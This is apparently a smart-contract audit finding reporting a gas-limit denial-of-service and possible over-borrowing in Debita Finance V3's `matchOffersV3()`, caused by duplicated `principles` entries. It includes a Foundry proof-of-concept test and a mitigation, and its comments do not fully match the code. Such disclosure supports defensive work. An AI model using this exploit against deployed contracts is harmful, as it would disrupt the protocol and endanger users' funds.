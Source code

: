 Broad Ash Cougar

High

# DoS Attack due vulnerability in `matchOffersV3()`

### Summary

Given:
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L319-L324

A malicious actor can a craft arguments to the  `matchOffersV3()` where the principle is arbitrarily large filled with duplicates of the `accepted principles` which would pass the check above since the require statement only checks if ` borrowInfo.acceptedPrinciples[indexForPrinciple_BorrowOrder[i]] == principles[i]`

For instance a normal argument might have:
- principles = [AERO, WETH]
- indexForPrinciple_BorrowOrder[i] = [ 0, 1 ]
- borrowInfo.acceptedPrinciples =  [ AERO, WETH ];
 This passes the check but a malicious argument can take this a step further to look something like:
- principles = [ AERO, WETH, WETH, WETH, WETH, ... ] //keeps going arbitrarily
- indexForPrinciple_BorrowOrder[i] = [ 0, 1, 1, 1, 1, ... ] //keeps going arbitrarily
- borrowInfo.acceptedPrinciples =  [ AERO, WETH ];

The issue here is that the only length cap in the function is: https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L290

which would have no effect what so ever in stopping the for loops which rely on `principles.length` (such as the one below) from running arbitrarily .

https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L317-L368

Which would most certainly cause a gas limit DoS. 
- This could also quite possibly lead to inaccurate calculations of `weightedAverageRatios` which could cause `borrowers` to borrow more than their collateral should permit them to.


### Root Cause

- The lack of a length cap/check for the principles array in `matchOffersV3()` in DebitaV3Aggregator.sol

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

- The protocol suffers massive down times 

### PoC

function testArrayLengthMismatchExploit() public {
        vm.startPrank(connector);
        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(3);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(3);
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData.getDynamicUintArray(3);

        // Create principles array with 5 elements (longer than borrowInfo.acceptedPrinciples which has 2)
        address[] memory principles = new address[](3);
        principles[0] = AERO;
        principles[1] = wETH;
        principles[2] = wETH;  // Duplicate principles

        uint[] memory indexForPrinciple_BorrowOrder = new uint[](3);
        indexForPrinciple_BorrowOrder[1] = 1;  // Points to wETH in acceptedPrinciples
        indexForPrinciple_BorrowOrder[2] = 1;  // Reuses valid index

        uint[] memory indexPrinciple_LendOrder = allDynamicData.getDynamicUintArray(3);
        indexPrinciple_LendOrder[1] = 1;  // Points to wETH in acceptedPrinciples
        indexPrinciple_LendOrder[2] = 2;  // Reuses valid index

        uint[] memory indexForCollateral_LendOrder = allDynamicData.getDynamicUintArray(3);

        // Setup basic lend orders
        lendOrders[0] = address(LendOrder);
        lendAmountPerOrder[0] = 25e17;
        porcentageOfRatioPerLendOrder[0] = 10000;

        lendOrders[1] = address(SecondLendOrder);
        lendAmountPerOrder[1] = 38e17;
        porcentageOfRatioPerLendOrder[1] = 10000;

        lendOrders[2] = address(ThirdLendOrder);
        lendAmountPerOrder[2] = 20e17;
        porcentageOfRatioPerLendOrder[2] = 10000;

        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(BorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContract = DebitaV3Loan(loan);
        vm.stopPrank();

        DebitaV3Loan.LoanData memory loanData = DebitaV3LoanContract.getLoanData();

        assertGt(loanData.principles.length, 2, "Should only have 2 principles but has more");
    }

### Mitigation

Making sure `principles` array is not greater than `borrowInfo.acceptedPrinciples` array.